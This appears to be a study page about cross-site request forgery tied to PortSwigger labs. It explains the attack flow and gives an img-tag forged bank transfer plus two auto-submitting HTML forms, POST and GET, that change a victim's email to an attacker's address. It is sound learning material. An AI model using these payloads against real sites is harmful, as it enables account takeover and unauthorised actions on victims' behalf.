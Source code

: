 ### Cross-site request forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a web security vulnerability that allows an attacker to trick a victim into unknowingly making an unwanted request to a web application where they are authenticated.

### How CSRF Works

- Victim logs into a trusted website (e.g., a banking site) and remains authenticated (session cookie is active).

- Attacker crafts a malicious request (e.g., a forged HTTP request to transfer money).

- Victim is tricked into triggering the request by visiting a malicious website, clicking a link, or loading an image.

- The request is sent from the victim’s browser with their authentication token (cookies, session, etc.).

- The server processes the request, assuming it's legitimate, and executes the action.

**Examples of a CSRF Attack**

- If a user is logged into their banking site, an attacker might trick them into clicking a malicious link like:

`<img src="https://bank.com/transfer?to=attacker&amount=1000" />`

### CSRF Portswigger Labs
For a CSRF attack, you'll typically craft a malicious HTML form that submits a request to change the email address when the victim loads the page. Here’s a basic example:

```html
<html>
  <body>
    <form action="https://TARGET.COM/path/to/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="csrf_token" value="CSRF_TOKEN_IF_NEEDED">  # could be excluded
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### Post request validation
There could be validation on POST request so you coult try to escape it using `GET`

```html
<html>
  <body>
    <form action="https://TARGET.COM/path/to/change-email" method="GET">
      <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
